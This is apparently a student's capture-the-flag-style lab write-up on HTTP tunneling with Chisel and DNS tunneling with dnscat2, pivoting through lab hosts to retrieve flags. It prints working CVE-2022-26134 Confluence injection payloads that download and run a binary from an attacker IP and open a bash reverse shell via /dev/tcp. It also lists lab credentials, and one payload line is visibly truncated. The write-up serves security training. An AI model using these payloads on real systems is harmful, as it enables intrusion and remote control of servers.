 
# HTTP Tunneling


2. Start VM Group 2. Download **/exercises/chisel_exercise_client** from CONFLUENCE01 (**192.168.239.63**). There's a server running on port 8008 on PGDATABASE01 (**10.4.239.215**).
   Set up a port forward using Chisel that allows you to run **chisel_exercise_client** against port 8008 on PGDATABASE01.

- Get file
```bash
wget http://192.168.239.63:8090/exercises/chisel_exercise_client
	--2024-06-25 19:04:17--  http://192.168.239.63:8090/exercises/chisel_exercise_client
	Connecting to 192.168.239.63:8090... connected.
	HTTP request sent, awaiting response... 200 
	Length: 1026416 (1002K)
	Saving to: ‘chisel_exercise_client’
	
	chisel_exercise_client  100%[=============================================================================================>] 1002K 1.42MB/s in 0.7s 
	
	2024-06-25 19:04:18 (1.42 MB/s) - ‘chisel_exercise_client’ saved [1026416/1026416]


chmod +x chisel_exercise_client
```

- Download compatible version of chisel, make executable, serve up
```bash
# Download v1.8.1 (working in ~/exercises/forward_tunnel dir)
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
	...
	chisel_1.8.1_linux_amd64.gz  100%[============================================================================>]   3.33M  --.-KB/s    in 0.1s
	...

# Unzip v1.8.1
gunzip chisel_1.8.1_linux_amd64.gz

# Rename
mv chisel_1.8.1_linux_amd64 chisel

# Make executable
chmod +x chisel

# Server
python3 -m http.server 80
```

- Set up Reverse Port Forward Server on Kali
```bash
chisel server --port 8080 --reverse
	2024/06/24 21:16:49 server: Reverse tunnelling enabled
	2024/06/24 21:16:49 server: Fingerprint eqnhO59Dz8gJ4de6b2Kvvnbv1X/QhAPgs8v4PsyBhck=
	2024/06/24 21:16:49 server: Listening on http://0.0.0.0:8080
```

- Send payload to CONFLUENCE01 to:
	1. Download chisel, Store it in /tmp/, & Make Executable
	2. Initiate a reverse port forward
```bash
# 1.
curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.166/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

# 2.
curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.g%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.166:8080%20R:socks%20%26%3Ert%28%29%22%29%7D/
```

- Verify via our chisel server
```bash
	2024/06/25 19:08:25 server: session#1: Client version (1.8.1) differs from server version (1.9.1-0kali1)
	2024/06/25 19:08:25 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
	- NOTE the tun is set to 127.0.0.1:1080

- Set proxychains config file
```bash
sudo vim /etc/proxychains4.conf

	socks5  127.0.0.1 1080
```
	- NOTE we set the same port as the Reverse Proxy seen above


- Run `chisel_exercise_client` via proxychains against PGDATABASE01
```bash
proxychains4 ./chisel_exercise_client -i 10.4.239.215 -p 8008
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
	Connecting to 10.4.239.215:8008
	[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.4.239.215:8008  ...  OK
	Flag: "OS{bec052233ff6ca0ebd989fcde4d587ec}"
```



# DNS Tunneling

2. Follow the steps in this section to set up the dnscat2 server on FELINEAUTHORITY, and execute the dnscat2 client on PGDATABASE01. Download the binary from **/exercises/dnscat_exercise_client** on CONFLUENCE01. Set up a port forward with dnscat2 which allows you to run **dnscat_exercise_client** against the server running on port 4646 on HRSHARES.


- CONFLUENCE01 - **192.168.227.63**
- MULTISERVER03 - **192.168.227.64**
- FELINEAUTHORITY - **192.168.227.7** - kali : 7he_C4t_c0ntro11er
- PGDATABASE01 - **10.4.227.215** - database_admin : sqlpass123
- HRSHARES - **172.16.227.217**


- Enable the SSH server on Kali & verify SSH port is open
```bash
sudo systemctl start ssh

udo ss -ntplu
	Netid       State        Recv-Q       Send-Q             Local Address:Port                Peer Address:Port       Process  
	...
	tcp         LISTEN       0            128                      0.0.0.0:22                       0.0.0.0:*           users:(("sshd",pid=2153,fd=3))
	tcp         LISTEN       0            128                         [::]:22                          [::]:*           users:(("sshd",pid=2153,fd=4))
```
	- SSH server is listening on port 22 for all interfaces for IPv4 & IPv6

- Get binary
```bash
wget http://192.168.227.63:8090/exercises/dnscat_exercise_client
	--2024-06-27 18:10:42--  http://192.168.227.63:8090/exercises/dnscat_exercise_client
	Connecting to 192.168.227.63:8090... connected.
	HTTP request sent, awaiting response... 200 
	Length: 1026416 (1002K)
	Saving to: ‘dnscat_exercise_client’
	
	dnscat_exercise_client  100%[==========================================================================================================>]   1002K  1.38MB/s    in 0.7s    
	
	2024-06-27 18:10:43 (1.38 MB/s) - ‘dnscat_exercise_client’ saved [1026416/1026416]

chmod +x dnscat_exercise_client
```

- Compromise CONFLUENCE01 w/ CVE-2022-26134 & construct local remote port forward.
```bash
curl -v http://192.168.227.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.166/5555%200%3E%261%27%29.start%28%29%22%29%7D/

# In revshell
python3 -c 'import pty; pty.spawn("/bin/sh")'

# Set up a local reverse port forward
ssh -N -R 127.0..0.1:9999:10.4.227.215:22 kali@192.168.45.166
```

- In Kali, ssh into PGDATABASE01 and FELINEAUTHORITY
```bash
# Tab 1 (PGDATABASE01)
ssh database_admin@127.0.0.1 -p 9999
	database_admin@127.0.0.1''s password: 
	Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)
	database_admin@pgdatabase01:~$


# Tab 2 (FELINEAUTHORITY)
ssh kali@192.168.227.7
	kali@192.168.227.7''s password: 
	Linux felineauthority 6.1.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.12-1kali2 (2023-02-23) x86_64
	...
	kali@felineauthority:~$
```

- Start **dnscat2** server on FELINEAUTHORITY
```bash
# kali@felineauthority:~$
dnscat2-server feline.corp
	[sudo] password for kali: 
	
	New window created: 0
	...
	Of course, you have to figure out <server> yourself! Clients
	will connect directly on UDP port 53.
```

- Start **dnscat2** client on PGDATABASE01
```bash
# database_admin@pgdatabase01:~/
cd dnscat/

dnscat$ ./dnscat feline.corp
	Creating DNS driver:
	 domain = feline.corp
	 host   = 0.0.0.0
	 port   = 53
	 type   = TXT,CNAME,MX
	 server = 127.0.0.53
	
	Encrypted session established! For added security, please verify the server also displays this string:
	
	Tore Lonely Omen Pianos Push Hobble 
	
	Session established!
```

- Set up **dnscat2** port forward on FELINEAUTHORITY to HRSHARES
```bash
	New window created: 1
	Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
	For added security, please ensure the client displays the same string:
	
>> 	Tore Lonely Omen Pianos Push Hobble

# dnscat2>
windows
	0 :: main [active]
	  crypto-debug :: Debug window for crypto stuff [*]
	  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
	  1 :: command (pgdatabase01) [encrypted, NOT verified] [*]


window -i 1
	New window created: 1
	history_size (session) => 1000
	Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
	For added security, please ensure the client displays the same string:
	
>> 	Tore Lonely Omen Pianos Push Hobble
	This is a command session!
	
	That means you can enter a dnscat2 command such as
	'ping'! For a full list of clients, try 'help'.

# command (pgdatabase01) 1>
listen 0.0.0.0:4646 172.16.227.217:4646
	Listening on 127.0.0.1:4646, sending connections to 172.16.227.217:4646
```

- Run binary against FELINEAUTHORITY from attack box
```bash
# Kali
./dnscat_exercise_client -i 192.168.227.7 -p 4646
	Connecting to 192.168.227.7:4646
	Flag: "OS{9ca1a6871ac2ca54f4689e69f7210e5d}"
```


### NOTE

>In the context of interface binding, the address 127.0. 0.1 means that the server only listens to the [loopback](Loopback.md) interface.
>On the other hand, binding our server to the 0.0. 0.0 interface means we want to accept traffic from all of the available interfaces.